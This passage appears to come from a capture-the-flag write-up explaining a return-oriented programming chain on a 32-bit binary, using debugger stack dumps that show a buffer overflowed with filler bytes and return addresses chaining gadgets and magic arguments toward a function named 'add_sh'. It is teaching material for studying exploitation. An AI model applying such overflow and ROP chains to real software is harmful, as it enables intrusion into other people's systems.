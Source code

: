 ```
0x080485a7 _fini+19 ret    
```
with a stack that looks like what follows:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0xffffd6d0 ec d6 ff ff 39 d9 ff ff 01 00 00 00 38 d9 ff f7 ....9.......8...
0xffffd6e0 00 00 00 00 00 00 00 00 00 00 00 00 41 41 41 41 ............AAAA
0xffffd6f0 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd700 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd710 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd720 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd730 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd740 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd750 41 41 41 41 41 41 41 41 00 00 00 00 42 42 42 42 AAAAAAAA....BBBB
                        esp
0xffffd760 a6 85 04 08 [ef be ad de] 9c 84 04 08 99 84 04 08 ................
0xffffd770 be ba fe ca 0d f0 ad 0b 4d 84 04 08 00 ca e3 f7 .... .. M.......
0xffffd780 02 00 00 00 14 d8 ff ff 20 d8 ff ff 6a ae fe f7 ........ ...j...
0xffffd790 02 00 00 00 14 d8 ff ff b4 d7 ff ff 18 a0 04 08 ................
0xffffd7a0 2c 82 04 08 00 00 fd f7 00 00 00 00 00 00 00 00 ,...............
0xffffd7b0 00 00 00 00 c3 b1 4c c6 d3 d5 76 fe 00 00 00 00 ......L...v.....
0xffffd7c0 00 00 00 00 00 00 00 00 02 00 00 00 50 83 04 08 ............P...
```
After executing the first instruction (`0x080485a6 _fini+18 pop    %ebx`), the stack looks like:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0xffffd6d0 ec d6 ff ff 39 d9 ff ff 01 00 00 00 38 d9 ff f7 ....9.......8...
0xffffd6e0 00 00 00 00 00 00 00 00 00 00 00 00 41 41 41 41 ............AAAA
0xffffd6f0 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd700 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd710 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd720 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd730 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd740 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd750 41 41 41 41 41 41 41 41 00 00 00 00 42 42 42 42 AAAAAAAA....BBBB
                                    esp
0xffffd760 a6 85 04 08 ef be ad de [9c 84 04 08] 99 84 04 08 ................
0xffffd770 be ba fe ca 0d f0 ad 0b 4d 84 04 08 00 ca e3 f7 .... .. M.......
0xffffd780 02 00 00 00 14 d8 ff ff 20 d8 ff ff 6a ae fe f7 ........ ...j...
0xffffd790 02 00 00 00 14 d8 ff ff b4 d7 ff ff 18 a0 04 08 ................
0xffffd7a0 2c 82 04 08 00 00 fd f7 00 00 00 00 00 00 00 00 ,...............
0xffffd7b0 00 00 00 00 c3 b1 4c c6 d3 d5 76 fe 00 00 00 00 ......L...v.....
0xffffd7c0 00 00 00 00 00 00 00 00 02 00 00 00 50 83 04 08 ............P...
```
 The stack pointer `esp` now points to the address of `add_sh`. With this setup, the next instruction (`0x080485a7 _fini+19 ret`) will in fact make the instruction pointer `eip` point to the address of `add_sh`. The flow of the stack continues similarly, with return addresses pointing to sections in the code that "adjust the stack offset" so that the flow goes as desired.

 ### Resources
